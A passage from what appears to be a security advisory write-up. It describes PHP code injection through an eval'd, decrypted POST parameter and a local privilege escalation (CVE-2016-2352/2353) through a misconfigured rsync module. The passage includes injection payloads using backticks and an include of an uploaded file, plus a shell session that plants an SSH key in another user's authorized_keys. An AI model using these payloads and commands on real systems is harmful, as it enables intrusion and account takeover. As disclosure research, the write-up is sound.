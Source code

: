 }
echo @eval( $func_call );
{% endhighlight %}

If Known-Secret-Key has been acquired, the output of decrypt( $_POST[fc] ) will be controllable. And despite that the succeeding regular expressions work as a function name whitelist filter, they do not filter parameters.  
Therefore, the only restriction for injecting random codes in the parameters is to exclude `(` `)` in the strings. But thanks to the flexible characteristic of PHP, there are lots of ways to manipulate, just to name two examples here.  


Execute system commands directly by using backticks (`)

> user_profile_auth(\`$_POST[cmd]\`);


A more elegant way: use the syntax INCLUDE to include the tmp_name of the uploaded files, so that any protection will give way.

> user_profile_auth(include $_FILES\[file\]\[tmp_name\]);



#### Local Privilege Escalation (CVE-2016-2352 and CVE-2016-2353)
After gaining PHP page privileges, we discovered that the privileges were assigned to user nobody. In order to engage in advanced recon, the web environment had been observed. After the observation, two possible privilege escalation vulnerabilities were identified.  

##### 1. Incorrect Rsync Configuration

**/etc/opt/rsyncd.conf**
{% highlight lighttpd %}
log file = /home/soggycat/log/kennel.log
...
[soggycat]
path = /home/soggycat
uid = soggycat
read only = false
list = false
...
{% endhighlight %}

The module name soggycat is readable and writable to anyone for the directory `/home/soggycat/`, therefore the SSH Key can be written into `/home/soggycat/.ssh/` and then use the soggycat credential to login.

{% highlight bash %}
bash-3.2$ id
uid=99(nobody) gid=99(nobody) groups=99(nobody)

bash-3.2$ rsync 0::soggycat/.ssh/
drwx------        4096 2016/01/29 18:13:41 .
-rw-r--r--         606 2016/01/29 18:13:41 authorized_keys

bash-3.2$ rsync 0::soggycat/.ssh/authorized_keys .
bash-3.2$ cat id_dsa.pub >> authorized_keys
bash-3.2$ rsync authorized_keys 0::soggycat/.ssh/

bash-3.2$ ssh -i id_dsa -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no soggycat@localhost id
Could not create directory '/.ssh'.
Warning: Permanently added '0,0.0.0.0' (RSA) to the list of known hosts.
uid=520(soggycat) gid=99(nobody) groups=99(nobody)

{% endhighlight %}
